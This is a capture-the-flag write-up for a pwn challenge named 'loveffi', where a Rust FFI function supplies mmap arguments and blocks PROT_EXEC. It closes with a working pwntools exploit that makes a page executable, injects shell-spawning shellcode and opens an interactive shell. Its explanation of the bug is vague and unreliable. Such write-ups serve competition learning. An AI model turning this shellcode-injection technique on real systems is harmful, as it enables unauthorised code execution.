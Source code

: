 # loveffi

This challenge involves something known as "foreign function interface" and uses an external library written in rust to get the arguments for the `mmap` function in C. The `mmap_args` function is this:
```rust
pub extern "C" fn mmap_args() -> MmapArgs {
    let args = MmapArgs {
        addr: read::<u64>(),
        length: read::<u64>(),
        protection: read::<u32>(),
        flags: read::<u32>(),
        fd: read::<u32>(),
        offset: read::<u64>(),
    };

    if args.protection & 4 != 0 {
        panic!("PROT_EXEC not allowed");
    }

    args
}
```
The read function has a custom implementation, basically it flushes stdout, prints a prompt, reads a line and removes newline. We see that we are not allowed to mmap a page as executable because of the check.

The bug here is very subtle and hard to understand exactly but the read function parses input such that value of `args.protection` can be set as 0 but the actual memory address has `7` which results in the page being marked as executable when mmaped and we can simply run shellcode to get a shell.

```python
from pwn import *
context.arch = "amd64"

io = process("./chal")
# io = remote("amt.rs", 31172)

io.sendlineafter(b"> ", b"0")
io.sendlineafter(b"> ", b"4096")
io.sendlineafter(b"> ", b"0")
io.sendlineafter(b"> ", b"456")
io.sendlineafter(b"> ", b"0")
io.sendlineafter(b"> ", b"7")

payload = asm(shellcraft.sh())
io.sendline(payload)

io.sendlineafter(b"> ", b"0")

io.interactive()
```